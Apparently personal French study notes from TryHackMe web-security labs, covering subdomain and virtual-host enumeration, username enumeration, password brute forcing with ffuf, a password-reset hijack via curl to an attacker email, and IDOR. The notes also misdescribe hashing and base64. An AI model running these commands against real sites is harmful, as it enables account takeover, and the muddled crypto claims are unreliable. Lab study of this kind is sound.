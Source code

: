      2. Osint  
     →`./sublist3r.py -d url`  
     (Pour accélérer le processus de découverte de sous-domaines en OSINT, 
      nous pouvons automatiser les méthodes ci-dessus à l’aide d’outils comme Sublist3r.) 

     3. Virtual host  
     →`ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u url`


## Auth bypass (à refaire parce que pas très bien compris)
### [Support d'aide](https://iritt.medium.com/tryhackme-authentication-bypass-walkthrough-83e8cd6559f8)

1. **énumération d'utilisateur** :  
→`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u URL_SIGNUP -mr "username already exists"`

2. **Brute Force** :  
→`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u URL_LOGIN -fc 200`


3. **MAil modif mdp** :  
→`curl 'http://10.10.73.13/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`


## IDOR 

* IDOR → Insecure Direct Object Reference  
     c'est par exemple avoir avec des info en changeant l'url  `https://onlinestore.thm/order/1000/invoice` en
     `https://onlinestore.thm/order/1264/invoice` et bim tu choppe les info de la commande **1264**

* La sécurisation est généralement en **base64**
* Pour unhash un truc hash généralement tu utilise **md5** comme code/algo/langage si le hash est en format md5 bien sur

* Si tu peux pas choppe l'id , tu créer un compte est tu le swap

* Pour "man in the middle" les requète sur un site tu fais :  
     1. inspecter l'élément
     2. onglet network
     3. click sur la requète
     4. resend
     5. modif les info pour celle qu'on veut
     6. send 
     7. onglet response

## File inclusion
